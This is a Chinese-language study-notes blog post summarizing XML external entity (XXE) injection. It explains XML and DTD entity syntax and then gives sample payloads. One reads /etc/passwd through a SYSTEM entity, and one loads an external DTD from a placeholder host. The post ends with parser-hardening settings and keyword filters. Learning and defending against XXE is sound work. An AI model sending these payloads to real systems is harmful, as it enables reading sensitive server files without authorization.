 ```yaml
---

layout: post
title: xml实体注入总结
subtitle: xml
date: 2021-3-11
author: mr_king
header-img: img/backimg/bd_17.jpg
catalog: true
tags: 
    -web
    -xml
    -学习笔记
---
```


# XML实体注入总结

## XML简介

- XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。
- XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素

## DTD(文档类型定义)

- DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。

- DTD 可以在 XML 文档内声明，也可以外部引用。

- **内部声明**：`<!DOCTYPE 根元素 [元素声明]>`

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT to      (#PCDATA)>
<!ELEMENT from    (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMRNT body    (#PCDATA)>
]>
<note>
    <to>Georage</to>
    <from>Jone</from>
    <heading>reaminder</heading>
    <body>not forgrt the meeting</body>
</note>
```

**外部声明（引用外部DTD）**：`<!DOCTYPE 根元素 SYSTEM "文件名">`

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note> 
```

note.dtd的内容为:

```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```



## **DTD实体**

- DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。

- 实体又分为一般实体和参数实体一般实体的声明语法:**`<!ENTITY 实体名 "实体内容">`** 
  引用实体的方式：&实体名；

- 参数实体只能在DTD中使用，参数实体的声明格式:**`<!ENTITY % 实体名 "实体内容">`**
  引用实体的方式：%实体名；

**内部实体声明** `<!ENTITY 实体名称 "实体的值">`

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer "Bill Gates">
<!ENTITY copyright "Copyright W3School.com.cn">
]>

<test>&writer;&copyright;</test>
```

**外部实体声明** `<!ENTITY 实体名称 SYSTEM "URI">`

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```



### XXE攻击

### 方法1:直接通过DTD外部实体声明

**xml内容**

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY name SYSTEM "file:///etc/passwd">
]> 
<root>
    <name>1</name>
    <tel>1</tel>
    <email>&name;</email>
    <password>1</password>
</root>
```

### **方法二**：通过DTD文档引入外部DTD文档，再引入外部实体声明

**xml内容**

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY name SYSTEM "http://ip(deom)/file.dtd">
]>
```

```xml
<!ENTITY file SYSTEM "file:///etc/passwd">
```



**支持的协议**

![image-20210317163019172](https://mr-king-1301068519.cos.ap-shanghai.myqcloud.com/markdown/image-20210317163019172.png)

## XXE漏洞修复与防御

- 使用开发语言提供的禁用外部实体的方法

```java
PHP:
libxml_disable_entity_loader(true);

JAVA:

DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();

dbf.setExpandEntityReferences(false);

Python:
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

- 过滤用户提交的XML数据
  过滤关键词：`<!DOCTYPE`和`<!ENTITY`，或者`SYSTEM`和`PUBLIC`。



